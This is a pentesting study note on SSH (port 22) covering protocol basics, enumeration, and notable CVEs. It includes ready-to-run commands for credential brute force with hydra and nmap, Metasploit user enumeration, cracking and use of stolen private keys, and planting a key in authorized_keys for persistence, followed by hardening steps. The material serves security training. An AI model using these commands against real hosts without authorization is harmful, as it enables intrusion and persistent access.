

# 01 - SSH (Port 22) Pentesting

## 1. Executive Summary

SSH (Secure Shell) is the standard for encrypted remote administration of Unix/Linux hosts and, increasingly, Windows. It listens on **TCP port 22** by default. Because SSH usually grants a real interactive shell, a single weak credential or leaked private key turns the service into full host compromise. SSH is rarely "broken" cryptographically; it is broken through **weak passwords, exposed private keys, misconfiguration, and outdated daemons**.

## 2. Protocol Overview & Architecture

SSH runs over TCP and negotiates: (1) protocol/version banner, (2) key exchange + host key (server identity), (3) cipher/MAC/KEX algorithm selection, (4) user authentication (password, publickey, keyboard-interactive, GSSAPI/Kerberos), then (5) channels (shell, exec, port-forward, SFTP).

```text
Client                                Server (sshd:22)
  | ---- TCP connect ---------------->|
  | <--- SSH-2.0-OpenSSH_9.6 banner --|   (version leak)
  | <==== KEX + host key ============>|   (algorithm negotiation)
  | ---- auth (password/publickey) -->|
  | <--- success/failure ------------|
  | ==== channel: shell / sftp ======|
```

## 3. Enumeration & Footprinting

```bash
# Version + default scripts
nmap -p22 -sV -sC <IP>

# Supported algorithms (spot weak/legacy crypto)
nmap -p22 --script ssh2-enum-algos <IP>

# Host key fingerprint + weak-key detection (Debian OpenSSL CVE-2008-0166)
nmap -p22 --script ssh-hostkey --script-args ssh_hostkey=full <IP>

# Which auth methods does the server allow?
nmap -p22 --script ssh-auth-methods --script-args="ssh.user=root" <IP>

# Deep audit of ciphers, MACs, KEX, and known CVEs
ssh-audit <IP>

# Grab host key for offline weak-key checks
ssh-keyscan -t rsa,ecdsa,ed25519 <IP>
```

## 4. Exploitation Deep Dive

### 4.1 Credential Brute Force
```bash
hydra -L users.txt -P pass.txt -t 4 ssh://<IP>
nmap -p22 --script ssh-brute --script-args userdb=users.txt,passdb=pass.txt <IP>
```
Keep `-t` low (≤4); high concurrency triggers `MaxStartups` throttling and lockouts.

### 4.2 Username Enumeration (timing)
Some older OpenSSH versions leak valid users via response timing:
```bash
msf> use scanner/ssh/ssh_enumusers
```

### 4.3 Private Key Abuse
Found an `id_rsa` during loot? Use it:
```bash
chmod 600 id_rsa
ssh -i id_rsa user@<IP>
# Encrypted key? crack the passphrase:
ssh2john id_rsa > hash; john --wordlist=rockyou.txt hash
```
Check accepted public keys without the private half:
```bash
msf> use scanner/ssh/ssh_identify_pubkeys
```

### 4.4 GSSAPI / Kerberos Auth
If the server supports GSSAPI (e.g. Windows OpenSSH on a Domain Controller), authenticate with a Kerberos TGT instead of a password — pass-the-ticket against SSH.

## 5. Notable CVEs
- **CVE-2008-0166** — Debian OpenSSL predictable PRNG: keys generated 2006–2008 are brute-forceable from a small set.
- **CVE-2024-6387 ("regreSSHion")** — unauthenticated RCE in glibc-based OpenSSH 8.5p1–9.7p1 via signal-handler race.
- **CVE-2018-15473** — OpenSSH username enumeration.

## 6. Mermaid Attack Flow



## 7. Post-Exploitation
- `sudo -l`, check `~/.ssh/` for more keys and `known_hosts` (lateral targets).
- Add your key to `~/.ssh/authorized_keys` for persistence.
- Use SSH for pivoting: `ssh -D 1080` (SOCKS), `-L`/`-R` port forwards. See **[[02 - SSH Tunneling and SOCKS Proxies]]**.

## 8. Defense & Hardening
1. **Disable password auth** — `PasswordAuthentication no`, keys only.
2. **No root login** — `PermitRootLogin no`.
3. Modern crypto only; remove legacy ciphers/MACs/KEX (verify with `ssh-audit`).
4. Patch sshd; rate-limit with `fail2ban`/`MaxAuthTries`.
5. Restrict source IPs at the firewall; use a non-standard port only as light obfuscation, not security.

## 9. Chaining Opportunities
- Leaked keys from web LFI/source disclosure → SSH login. See **[[07 - Path Traversal and LFI]]**.
- Foothold → **[[08 - Linux Privilege Escalation]]**.

## 10. Related Notes
- [[02 - Telnet (Port 23) Pentesting]]
- [[20 - RDP (Port 3389) Pentesting]]
- [[22 - WinRM (Ports 5985-5986) Pentesting]]
